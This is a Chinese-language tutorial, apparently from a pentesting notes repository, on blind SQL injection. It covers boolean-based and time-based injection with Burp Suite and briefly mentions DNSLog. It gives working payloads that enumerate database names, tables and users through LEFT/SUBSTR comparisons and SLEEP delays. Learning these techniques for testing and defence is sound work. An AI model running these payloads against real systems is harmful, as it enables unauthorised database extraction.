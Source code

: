 # 无显注入法 -- 无法通过页面直接显示数据和错误信息
### 0x01 函数样例
```sql
    if(expr1,expr2,expr3),满足条件expr1即条件expr1返回expr2否则expr3
    mid(str,start,length),第一个参数是内容，第二参数是截取位置，第三参数是截取长度
    substr(str,pos,len)
    ascii(),编码绕过,如: ascii(substr((select user()),1,1))=114
    left(str,length)
```
### 0x02 布尔盲注

#### 原理:

![](/assets/BCE183BF80E71F93B891EB4A4CD2AE3E.png)

#### 方法: 配合Burpsuite快速匹配,[hackbar手注](https://www.jianshu.com/p/127f3bc8df5c)

![](/assets/C7CBE082C18855C847C61DA54025F7E3.png)

#### 注入流程:

```sql
    判断语句末尾加上 %23
查库: and left((select database()),1)='s' 
查表: and left((select table_name from information_schema.tables where table_schema=database() limit 0,1),1)='u'
利用 burpsute 将拦截的包发送到 intruder 模块，在 position 中选定参数(clear一下)，在payload中选择brute force进行猜解
根据攻击结果反馈开始添加第二个参数
```

### 0x03 时间盲注

#### 原理: 

![](/assets/B435E9AB095D69230969F8256C149BB5.png)

#### 方法: 配合Burpsuite快速匹配,提高效率语句:    if((left(user(),1)='a'),sleep(5),1)

![](/assets/60C5189C592E0E2494B4047CA306E7C1.png)
或者直接利用bp注入
![](/assets/WX20190320-151705@2x.png)

### 0x04 DNSLog盲注

#### 方法: 目标服务器是 windows server 才能用此方法

![](/assets/4BFF8119025B38FF4A8FAC2F09B0B1F2.png)





